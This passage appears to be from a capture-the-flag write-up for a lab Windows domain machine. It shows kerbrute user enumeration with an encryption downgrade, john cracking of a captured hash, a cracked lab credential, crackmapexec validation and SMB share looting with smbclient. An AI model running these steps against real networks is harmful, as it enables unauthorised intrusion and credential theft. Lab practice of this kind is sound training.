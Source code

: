 save the hash and crack it

downgrade to 23 encryption to crack

```bash

./kerbrute -d LicorDeBellota.htb --dc 10.10.10.240 userenum user.txt --downgrade

```

```bash

sudo john -w=rockyou.txt newhash.txt

```

|user | Password |
|---|---|
| Kaorz |Roper4155 |

### crackmapexec

```bash

cme smb 10.10.10.240  -u Kaorz -p Roper4155
SMB         10.10.10.240    445    PIVOTAPI         [*] Windows 10.0 Build 17763 x64 (name:PIVOTAPI) (domain:LicorDeBellota.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.240    445    PIVOTAPI         [+] LicorDeBellota.htb\Kaorz:Roper4155

```

account is valid.

lets enumerate smb shares more

```bash
cme smb 10.10.10.240  -u Kaorz -p Roper4155 --shares -M spider_plus
```

output is stored at /tmp

map values of the key

```bash

cat 10.10.10.240.json | jq '.| map_values(keys)'
```

use smbclient to download files

```bash
smbclient -U Kaorz //10.10.10.240/NetLogon
mget *

```

convert .msg files to ascii readable format in terminal

```bash
msgconvert *.msg
```
